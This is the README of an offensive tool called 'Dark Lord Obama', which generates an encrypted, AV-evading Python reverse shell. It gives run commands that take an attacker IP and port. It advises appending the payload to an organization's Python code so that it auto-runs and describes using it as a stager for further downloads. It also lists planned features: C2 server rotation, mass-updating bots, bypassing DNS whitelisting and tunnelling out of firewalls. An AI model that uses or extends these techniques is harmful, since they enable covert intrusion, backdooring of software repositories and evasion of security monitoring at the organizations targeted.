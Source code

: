 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4)

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

# Current usage

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

Currently it only works on targets that run Python. A cross-compilable and transpilable edition is in the works after DEFCON and after I pass the OSCP.

`python darklordobama-generator.py <LHOST> <LPORT>`

# Incoming features

1. Cross-compilation - Ideal targeted platforms, Android, iOS, MacOS (already possible with py2app), ARM/MIPS based routers and IoT devices
2. C2 Server - Encrypts a whole TLS 1.3 certificate within the payload, and attempts to negotiate a TLS session with the Command-and-Control Server (the payload does not have the key or IV, the server sends a CHALLENGE string containing it for the payload to decrypt the TLS cert), if a IP or host fails to provide the correct TLS certificate (handshake), the C2 Server immediately issues a permaban rule on IPTables (DROP packets)
3. "Steroid Injections" - Re-writable sections of memory occupied by the payload using statically defined functions, built in reverse-SSH tunnels, and SocketServer. Instantly grant your payload new abilities without having to re-touch the disk (it modifies a function that is holding a 5,000 byte buffer of \x90 NOP instructions and then lets you CALL it)
4. Dynamic DNS Support - With built-in dns resolver to ensure that you always use public DNS (1.1.1.1 or 8.8.8.8) to evade corporate DNS whitelisting
5. C2_Rotate Function - Using Ansible, Tensorflow, and Python, automate the spinning up of brand new Command-and-Control Servers, and immediately push a mass-update on all current bots to "rotate" to the new VPS. Requires Dynamic DNS subscription.
6. Built-in SSH client - Allow your payloads to create reverse SSH tunnels to tunnel out of restrictive firewalls (like a home NATed router)
7. ASM Interpreter - Run x86 Assembly Instructions or launch object .o files
